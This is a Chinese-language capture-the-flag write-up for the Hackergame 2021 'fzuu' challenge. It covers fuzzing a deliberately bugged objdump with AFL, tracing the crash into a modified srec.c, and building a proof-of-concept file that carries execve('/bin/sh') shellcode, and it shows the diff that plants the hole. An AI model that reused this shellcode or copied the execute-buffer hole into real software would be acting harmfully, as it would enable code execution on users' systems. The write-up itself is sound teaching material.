


# fzuu

题解作者：[Elsa Granger](https://github.com/zeyugao)

出题人、验题人、文案设计等：见 [Hackergame 2021 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：binary

- 题目分值：350

- 题目链接：[http://202.38.93.111:10124/?token={token}](http://202.38.93.111:10124/)

小 A 改了改 binutils[注 1] 的代码，但是写出了 bug。

> 小 A 说：binutils 的代码那么多，肯定没有人可以发现我这个漏洞写在了哪里。即使缩小范围，只给其中的一个包含漏洞的程序 objdump [注 2]，也不会被发现！

小 A 还把这个程序公开出来放在网上，方便没有电脑的人使用。

小 E 很不服气，找到了你希望能够帮她找到这个漏洞。

小 A 提供了三个文件，**[文件下载](src/fzuu.zip)**。

`objdump_afl` 使用了 `afl-gcc` [注 3] 进行编译，`objdump` 使用 `gcc` 进行编译。两者的编译优化开关从 `-O1` 和 `-O2` 的优化 Pass 随机挑选了一半打开。`fuzz_in.tar.gz` 为提供的示例输入，生成方式为

```python
import random

for i in range(10):
    with open('fuzz_in/seed_{}'.format(i), 'wb') as f:
        f.write(''.join([chr(random.randint(0, 127))
                for _ in range(128)]).encode())
```

objdump 可以被应用在各种目标文件上，其调用方式为

```shell
objdump -d payload_file
```

如 `objdump -d /usr/bin/ls`

```
/usr/bin/ls:     file format elf64-x86-64


Disassembly of section .init:

0000000000004000 <.init>:
    4000:       f3 0f 1e fa             endbr64
    4004:       48 83 ec 08             sub    $0x8,%rsp
    4008:       48 8b 05 c9 ef 01 00    mov    0x1efc9(%rip),%rax        # 22fd8 <__gmon_start__>
...
```

注 1：引自 Wiki：GNU Binary Utilities 或 binutils 是一整套的编程语言工具程序，用来处理许多格式的目标文件。

注 2：引自 Wiki：objdump 是在类 Unix 操作系统上显示关于目标文件的各种信息的命令行程序。例如，它可用作反汇编器来以汇编代码形式查看可执行文件。它是 GNU Binutils 的一部分，用于在可执行文件和其他二进制数据上进行精细粒度控制。

注 3：参考：[AFL](https://github.com/google/AFL)

注 4：经过测试，在一台主频为 3.00 GHz 的机器（*Intel(R) Xeon(R) Gold 6248R CPU @ 3.00GHz*）上（AFL 无法利用多核），大约 15 分钟以内即可以生成触发 bug 的测试用例，通过调整参数可以更快。

注 5：在使用 AFL 时如果遇到无法正常执行的情况，可以考虑添加 `-m none` 的参数。

注 6：在与题目平台进行交互时，使用 base64 的方式进行传递文件而非上传文件。

## 题解

这是一道纯 fuzz（模糊测试）的题。

引自 Wiki：

> 模糊测试 （fuzz testing, fuzzing）是一种软件测试技术。其核心思想是将自动或半自动生成的随机数据输入到一个程序中，并监视程序异常，如崩溃，断言（assertion）失败，以发现可能的程序错误，比如内存泄漏。模糊测试常常用于检测软件或计算机系统的安全漏洞。

找 pwn 题的注入点是很多时候是手动看，对于内核这一类的程序，即使提供了源代码，所有的调试符号信息都提供了，但是由于程序规模较大，实现起来存在困难。

题目给出了 objdump 和 objdump_alf 两个文件，前者用 gcc 编译，后者用 afl-gcc 编译，即可以直接用 AFL 进行 fuzz。

题目给出的 objdump 的运行参数为：

```
objdump -d pocfile
```

## AFL QuickStart

https://github.com/google/AFL 下面有一个 QuickStartGuide，十分简短，可以快速了解如何使用 AFL。

### 编译

```shell
$ make
[*] Checking for the ability to compile x86 code...
[+] Everything seems to be working, ready to compile.
cc -O3 -funroll-loops -Wall -D_FORTIFY_SOURCE=2 -g -Wno-pointer-sign -DAFL_PATH=\"/usr/local/lib/afl\" -DDOC_PATH=\"/usr/local/share/doc/afl\" -DBIN_PATH=\"/usr/local/bin\" afl-gcc.c -o afl-gcc -ldl
set -e; for i in afl-g++ afl-clang afl-clang++; do ln -sf afl-gcc $i; done
cc -O3 -funroll-loops -Wall -D_FORTIFY_SOURCE=2 -g -Wno-pointer-sign -DAFL_PATH=\"/usr/local/lib/afl\" -DDOC_PATH=\"/usr/local/share/doc/afl\" -DBIN_PATH=\"/usr/local/bin\" afl-fuzz.c -o afl-fuzz -ldl
cc -O3 -funroll-loops -Wall -D_FORTIFY_SOURCE=2 -g -Wno-pointer-sign -DAFL_PATH=\"/usr/local/lib/afl\" -DDOC_PATH=\"/usr/local/share/doc/afl\" -DBIN_PATH=\"/usr/local/bin\" afl-showmap.c -o afl-showmap -ldl
cc -O3 -funroll-loops -Wall -D_FORTIFY_SOURCE=2 -g -Wno-pointer-sign -DAFL_PATH=\"/usr/local/lib/afl\" -DDOC_PATH=\"/usr/local/share/doc/afl\" -DBIN_PATH=\"/usr/local/bin\" afl-tmin.c -o afl-tmin -ldl
cc -O3 -funroll-loops -Wall -D_FORTIFY_SOURCE=2 -g -Wno-pointer-sign -DAFL_PATH=\"/usr/local/lib/afl\" -DDOC_PATH=\"/usr/local/share/doc/afl\" -DBIN_PATH=\"/usr/local/bin\" afl-gotcpu.c -o afl-gotcpu -ldl
cc -O3 -funroll-loops -Wall -D_FORTIFY_SOURCE=2 -g -Wno-pointer-sign -DAFL_PATH=\"/usr/local/lib/afl\" -DDOC_PATH=\"/usr/local/share/doc/afl\" -DBIN_PATH=\"/usr/local/bin\" afl-analyze.c -o afl-analyze -ldl
cc -O3 -funroll-loops -Wall -D_FORTIFY_SOURCE=2 -g -Wno-pointer-sign -DAFL_PATH=\"/usr/local/lib/afl\" -DDOC_PATH=\"/usr/local/share/doc/afl\" -DBIN_PATH=\"/usr/local/bin\" afl-as.c -o afl-as -ldl
ln -sf afl-as as
[*] Testing the CC wrapper and instrumentation output...
unset AFL_USE_ASAN AFL_USE_MSAN; AFL_QUIET=1 AFL_INST_RATIO=100 AFL_PATH=. ./afl-gcc -O3 -funroll-loops -Wall -D_FORTIFY_SOURCE=2 -g -Wno-pointer-sign -DAFL_PATH=\"/usr/local/lib/afl\" -DDOC_PATH=\"/usr/local/share/doc/afl\" -DBIN_PATH=\"/usr/local/bin\" test-instr.c -o test-instr -ldl
./afl-showmap -m none -q -o .test-instr0 ./test-instr < /dev/null
echo 1 | ./afl-showmap -m none -q -o .test-instr1 ./test-instr
[+] All right, the instrumentation seems to be working!
[+] LLVM users: see llvm_mode/README.llvm for a faster alternative to afl-gcc.
[+] All done! Be sure to review README - it's pretty short and useful.
NOTE: If you can read this, your terminal probably uses white background.
This will make the UI hard to read. See docs/status_screen.txt for advice.
```

### 使用

QuickStartGuide 下面的第二段是一个简短的介绍；

第三段是如何从源代码得到能够被 AFL 进行 fuzz 的可执行文件，由于题目中已经给出了，就不需要进行这一步；

第四段是告诉应当创建一个文件夹提供给 AFL 使用，这个文件夹下面应当包含一些输入的文件，题目提供了一个包含了随机串的输入文件，在 `fuzz_in.tar.gz` 里面，也可以自己生成；

第五段则是实际的使用方式了，对于此题而言，

目录结构为：

```
$ ls -aR
.:
.  ..  afl-fuzz  fuzz_in  objdump  objdump_afl

./fuzz_in:
.  ..  seed_0  seed_1  seed_2  seed_3  seed_4
```

使用 afl-fuzz：

```shell
$ ./afl-fuzz -i fuzz_in/ -o fuzz_out ./objdump_afl -d @@
```

大约一段时间之后，可以看到 crash：



查看 crash 的具体内容：

```
$ ls fuzz_out/crashes
id:000000,sig:04,src:000157,op:flip1,pos:1  README.txt
```

用没有被 afl 插桩过的运行一下：

```
$ ./objdump -d fuzz_out/crashes/id:000000,sig:04,src:000157,op:flip1,pos:1
[1]    1435793 illegal hardware instruction (core dumped)  ./objdump -d fuzz_out/crashes/id:000000,sig:04,src:000157,op:flip1,pos:1
```

查看内容：

```
$ xxd fuzz_out/crashes/id:000000,sig:04,src:000157,op:flip1,pos:1
00000000: 5331 3030 2d30 ffff 3020                 S100-0..0
```

coredump 了，直接调试起来：

```shell
gdb objdump core
```

可以看到是在 `srec_scan_helper` 下面崩溃了：

```
pwndbg> where
#0  0x00007ffd671b3d80 in ?? ()
#1  0x000055a0dccf58b5 in srec_scan_helper (abfd=0x55a0ddba0630) at ../../bfd/srec.c:317
#2  0x000055a0dccf6341 in srec_scan (abfd=0x55a0ddba0630) at ../../bfd/srec.c:598
#3  0x000055a0dccf66cb in srec_object_p (abfd=0x55a0ddba0630) at ../../bfd/srec.c:693
#4  0x000055a0dcce96b9 in bfd_check_format_matches (abfd=0x55a0ddba0630, format=bfd_object, matching=0x7ffd671b4140) at ../../bfd/format.c:343
#5  0x000055a0dcc66039 in display_object_bfd (abfd=0x55a0ddba0630) at ../../binutils/objdump.c:5058
#6  0x000055a0dcc6628a in display_any_bfd (file=0x55a0ddba0630, level=0) at ../../binutils/objdump.c:5150
#7  0x000055a0dcc66304 in display_file (filename=0x7ffd671b4a56 "fuzz_out/crashes/id:000000,sig:04,src:000157,op:flip1,pos:1", target=0x0, last_file=true) at ../../binutils/objdump.c:5171
#8  0x000055a0dcc66d7a in main (argc=3, argv=0x7ffd671b4318) at ../../binutils/objdump.c:5521
#9  0x00007f6aa2881bf7 in __libc_start_main (main=0x55a0dcc66324 <main>, argc=3, argv=0x7ffd671b4318, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffd671b4308) at ../csu/libc-start.c:310
#10 0x000055a0dcc5afbe in _start ()
```

然后 ida 启动！找到 `srec_scan`，objdump 里面所有的符号信息都保留了。然后 F5 大法！



ida 分析失败了，但是汇编长度不长，可以容易地分析出来，这个函数实际上是执行了一直从 `srec_get_byte` 这个函数读取一个字符出来，保存到 `buf` 变量里面，然后读取到 -1 的时候就跳出来，以 buf 数组进行了 shellcode 到调用。

容易猜想到这个是从文件里面读取到的 shellcode，然后用 gdb 调进去可以知道是从上面的 `ff ff` 的内容开始读取的，因此，以 `5331 3030 2d30` 为开始，后面为 shellcode 即可。

生成一下：

```python
shellcode = [
    0x6a, 0x42, 0x58, 0xfe, 0xc4, 0x48, 0x99, 0x52, 0x48, 0xbf,
    0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x57, 0x54,
    0x5e, 0x49, 0x89, 0xd0, 0x49, 0x89, 0xd2, 0x0f, 0x05
]
data_prefix = '533130302d30'

data = bytes.fromhex(data_prefix)

data += bytes(shellcode)
print(data)

with open('objdump_poc_test', 'wb') as f:
    f.write(data)
```

执行

```
$ ./objdump -d ~/Code/test/objdump_poc_test
$ ls
bin lib flag.txt
$
```

把提供给 objdump 的文件用 base64 编码一下即可。

## 原因分析

使用的是 bintuils 2.37 的版本，对 `./binutils-2.37/bfd/srec.c` 进行了修改：

```diff
294a295,315
> unsigned int hex(char *buf) {
>   return HEX(buf);
> }
> 
> void srec_scan_helper(bfd *abfd)
> {
>   char buf[100];
>   bool error;
>   int lineno = 0;
>   int c;
>   while ((c = srec_get_byte(abfd, &error)) != EOF)
>   {
>     buf[lineno] = c;
>     lineno++;
>   }
> 
>   void (*f)();
>   f = (void (*)())buf;
>   (void)(*f)();
> }
> 
479c500
<       check_sum = bytes = HEX (hdr + 1);
---
>       check_sum = bytes = HEX (hdr + 1) + 1; // Ensure bytes > 0
481c502,505
<       if (hdr[0] == '2' || hdr[0] == '8')
---
>     if (hdr[0] == '1') {
>       min_bytes = 1;
>     }
>       else if (hdr[0] == '2' || hdr[0] == '8')
567a592,595
>     
>     if (bytes == 0xfffffffe) {
>       srec_scan_helper(abfd);
>     }
```

在这里将 `hdr[0] == '1'` 时对应的 `min_bytes = 3` 修改为了 1。

```c
		if (hdr[0] == '1') {
			min_bytes = 1;
		}
```

从而绕过了下面的对 `bytes` 长度的检查，可以将 `bytes` 设置为 1，也就是 hdr[1] == '0'。
同时为了避免出现另一个问题，将 `HEX (hdr + 1)` 修改为了 `HEX (hdr + 1) + 1`。

```c
check_sum = bytes = HEX (hdr + 1) + 1; // Ensure bytes > 0
...
if (bytes < min_bytes)
```

然后在后面的 switch 中的 `1` 的情况，buf 的的长度不够，实际上已经会发生指针的问题了，但是因为没有开启 ASAN，就没有报错。

```c
		buf = (bfd_byte *) bfd_malloc ((bfd_size_type) bytes * 2);
...
	    --bytes;
...
	    data = buf;
...
	      case '1':
		check_sum += HEX (data);
		address = (address << 8) | HEX (data);
		data += 2;
		check_sum += HEX (data);
		address = (address << 8) | HEX (data);
		data += 2;
		bytes -= 2;
```

然后 `bytes -= 2`，因为如果设置了 bytes = 1，在前面又会有一个 `--bytes`，bytes 就会减为 -2，但是 bytes 为 unsigned 的，发生了下溢，进入到了提供的执行 shellcode 的函数。

```c
		if (bytes == 0xfffffffe) {
			srec_scan_helper(abfd);
		}
```

`srec_scan_helper` 在 IDA 分析的时候还发生了无法分析的情况，并不是完全的预期。
